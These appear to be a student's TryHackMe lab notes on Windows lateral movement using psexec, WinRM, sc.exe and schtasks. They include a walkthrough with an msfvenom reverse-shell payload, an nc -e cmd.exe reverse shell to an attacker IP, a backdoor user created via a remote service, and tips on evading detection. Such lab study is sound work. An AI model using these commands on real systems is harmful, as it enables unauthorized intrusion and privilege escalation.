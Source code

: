 # Lateral Movement and Pivoting

### Moving Through the Network

**What is Lateral Movement?**

Lateral movement is a group of techniques used by attackers to move around a network.
Moving is essential for many reasons, including:

- Reaching our goals as attackers
- Bypassing network restrictions in place
- Establishing additional points of entry to the network
- Creating confusion and avoid detection.

![kill chain](../pictures/kill-chain.png)

Usually, we will repeat this cycle several times before reaching our final goal on the network. If our 
first foothold is a machine with very little access to other network resources, we might need to move 
laterally to other hosts that have more privileges on the network.

**The Attacker's Perspective**

The simplest way to move laterally is to use standard administrative protocols like WinRM, RDP, VNC or 
SSH to connect to other machines around the network. This approach can be used to emulate regular 
user behavour. Make sure the connections don't appear suspicious (e.g.why is a local admin on a 
Marketing machine connecting to a Dev machine?)

**Administrators and UAC**

Two types of administrator:

- Local accounts part of the local Administrators group
- Domain accounts part of the local Administrators group

There are restrictions imposed by User Account Control (UAC) over local administrators (except for the 
default Administrator account). By default, local administrators won't be able to remotely connect to a 
machine and perform administrative tasks unless using an interactive session through RDP. 

Windows will deny any administrative task requested via RPC, SMB or WinRM since such administrators 
will be logged in with a filtered medium integrity token, preventing the account from doing privileged 
actions.

The only local account that will get full privileges is the default Administrator account.

Domain accounts with local administration privileges won't be subject to the same treatment and will be 
logged in with full administrative privileges.

This security feature can be disabled if desired, and sometimes you will find no difference between 
local and domain accounts in the administrator's group.

It's essential to keep in mind that should some of the lateral movement techniques fail, it might be 
due to using a non-default local administrator where UAC is enforced. Info [here](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction)

### Spawning Processes Remotely

**Psexec**

Ports: 445/TCP (SMB)
Required Group Membership: Administrators

The way psexec works:

- Connect to Admin$ share and upload a service binary. Psexec uses psexesvc.exe as the name.
- Connect to the service control manager to create and run a service named PSEXESVC and associate the 
service binary with `C:\Windows\psexesvc.exe`.
- Create some named pipes to handle stdin/stdout/stderr.

To run psexec, we supply the required administrator credentials for the remote host and the command we 
want to run:

`psexec64.exe \\<TARGET> -u Administrator -p Password -i cmd.exe`


**Remote Process Creation using WinRM**

Ports:

- 5985/TCP (WinRM HTTP)
- 5986/TCP (WinRM HTTPS)

Required Group Memberships: Remote Management Users

Windows Remote Management (WinRM) is a web-based protocol used to send Powershell commands to Windows 
hosts remotely. Most Windows Server installations will have WinRM enabled by default, making it an 
attractive attack vector.

Connect to a remote Powershell session from the command line:

`winrs.exe -u:<USERNAME> -p:<PASSWORD> -r:<TARGET-IP> cmd`

We can achieve the same from Powershell, but to pass different credentials we will need to create a 
PSCredential object:

```
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Once we have our PSCredential object, we can create an interactive session using the Enter-PSSession 
cmdlet:

`Enter-PSSession -Computername TARGET -Credential $credential`

Powershell also includes the Invoke-Command cmdlet, which runs ScriptBlocks remotely via WinRM. 
Credentials must be passed through a PSCredential object as well:

`Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}`


**Remotely Creating Services using sc**

Ports:

- 135/TCP, 49152-65535/TCP (DCE/RPC)
- 445/TCP (RPC over SMB Named Pipes)
- 139/TCP (RPC over SMB Named Pipes)

Required Group Memberships: Administrators

Windows services can also be leveraged to run arbitrary commands since they execute a command when 
started. While a service executable is technically different from a regular application, if we 
configure a Windows service to run any application, it will still execute it and fail afterwards.

We can create a service on a remote host with sc.exe, a standard tool available in Windows. When using 
sc, it will try to connect to the Service Control Manager (SVCCTL) remote service program through RPC 
in several ways:

1. A connection attempt will be made using DCE/RPC. The client will first connect to the Endpoint 
Mapper (EPM) at port 135, which serves as a catalogue of available RPC endpoints and request 
information on the SVCCTL service program. The EPM will then respond with the IP and port to connect 
to SVCCTL, which is usually a dynamic port in the range of 49152-65535.

![sc connection DCE/RPC](../pictures/sc-dce-rpc.png)

2. If the latter connection fails, sc will try to reach SVCCTL through SMB named pipes, either on port 
445 (SMB) or 139 (SMB over NetBIOS)

![sc connection SMB](../pictures/sc-smb.png)

We can create and start a service named "THMservice" using the following commands:

```
sc.exe \\<TARGET> create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\<TARGET> start THMservice
```

The `net user` command will be executed when the service is started, creating a new local user on the 
system. Since the operating system is in charge of starting the service, you won't be able to look at 
the command output.

To stop and delete the service, we can then execute the following commands:

```
sc.exe \\<TARGET> stop THMservice
sc.exe \\<TARGET> delete THMservice
```

**Creating Scheduled Tasks Remotely**

Another Windows feature we can use is Scheduled Tasks. You can create and run one remotely with 
schtasks, available in any Windows installation.

To create a task we can use the following commands:

```
schtasks /s TARGET /RU "SYSTEM" /create /tn "TaskNameHere" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00

schtasks /s TARGET /run /TN "TaskNameHere" 
```

We set the schedule type (/sc) to ONCE, which means the task is intended to be run only once at the 
specified time and date. Since we will be running the task manually, the starting date (/sd) and 
starting time (/st) won't matter much anyway.

Since the system will run the scheduled task, the command's output won't be available to us, making 
this a blind attack.

Finally, to delete the scheduled task, we can use the following command and clean up after ourselves:

`schtasks /S TARGET /TN "TaskNameHere" /DELETE /F`

**Let's Get to Work!**

Exploit with sc.exe:

1. ssh into jump server THMJMP2

2. create msfvenom service exe payload
`msfvenom -p windows/shell/reverse_tcp LHOST=10.10.0.1 LPORT=4444 -f exe-service -o service-shell.exe`

3. use smbclient with compromised credentials (t1_leonard.summers) to upload payload to target THMIIS
`smbclient -c 'put service-shell.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$'`

4. start a listener with msfconsole
`msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST 10.10.0.1; set LPORT 4444;exploit"`

5. get a shell on the target with netcat (connected to THMJMP2 with ssh, shell will spawn but we won't 
be able to access it so netcat is used instead) and using `runas.exe` to execute as t1_leonard.summers
`runas.exe /netonly /user:ZA.TRYHACKME.COM\leonard.summers "c:\tools\nc64.exe -e cmd.exe 10.10.0.1 4443"`

6. create service with uploaded payload as the service bin
`sc.exe \\thmiis.za.tryhackme.com create RemoteShellService binPath= "%windir%\service-shell.exe" start= auto`

7. start the service to gain a SYSTEM shell on THMIIS
`sc.exe \\thmiis.za.tryhackme.com start RemoteShellService`

Exploit with WinRM:



Exploit with Psexec:



Exploit with Scheduled tasks:

